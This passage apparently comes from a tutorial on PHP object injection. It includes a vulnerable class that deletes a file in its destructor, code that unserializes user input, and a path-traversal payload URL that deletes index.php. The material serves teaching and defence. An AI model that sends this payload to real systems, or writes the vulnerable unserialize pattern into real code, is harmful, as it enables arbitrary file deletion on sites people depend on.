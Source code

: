 Anatomy of a PHP Object:  
![PHP Object Unserialized](Resources/PHP_Unserialize.png)

Example:  
![PHP Object Unserialized](Resources/PHP_Unserialize2.png)

**Exploitation**

Example: Deleting an arbitrary file via. Path Traversal
```PHP
class Example1 {
   public $cache_file;

   function __construct() {
      // some PHP code...
   }

   function __destruct() {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}
// some PHP code...
$user_data = unserialize($_GET['data']);
// some PHP code...

// PAYLOAD //
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```
